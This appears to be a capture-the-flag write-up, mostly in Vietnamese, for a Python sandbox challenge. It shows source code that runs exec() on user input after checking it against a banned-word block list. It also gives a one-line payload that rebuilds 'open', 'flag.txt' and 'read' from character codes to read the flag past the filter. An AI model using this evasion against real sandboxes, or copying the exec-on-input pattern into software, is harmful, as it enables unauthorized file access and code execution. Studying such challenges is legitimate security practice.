


# Decription



## Source
```c
import sys # What's wrong with you, Rootsquare?

def filter_code(user_input): # You cannot use those words.
    banned_word=['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'sh', 'break', 'mro', 'cat', 'flag']
    for i in range(0,len(banned_word),1):
        x=banned_word[i]
        if x in user_input:
            return False
    return True

print("Welcome to Python Challenge! Input your code and capture the flag!")
code=input('Input code > ') # Please input your code.
result=filter_code(code) # Check if you used banned word.

if result==True: # If you follow my rule, then I execute your code.
    try:
        exec(code) # (*) Search what does 'exec' means!
    except:
        pass
else:
    print('Your input is blocked.')
```

### Problem

```c
Ta thấy rằng mục đích của chương trình này là chặn các đoạn code nhạy cảm trong banned_word.

open/read/write/system/flag đều bị chặn. Ta không thể trực tiếp gọi các hàm đó để đọc flag được.

Nhưng để ý rằng hàm filter_code chỉ check những từ trong banned_word. Ta có thể nhập theo kiểu ascii/oct/hex để thực hiện yêu cầu mở flag và in ra ngoài.
```
#### Solve
    
SỬ dụng python để tiến hành thwucj thi open, read, write flag

```c
print(getattr(getattr(__builtins__, ''.join(map(chr,[111,112,101,110])))(''.join(map(chr,[102,108,97,103,46,116,120,116]))), ''.join(map(chr,[114,101,97,100])))())
```

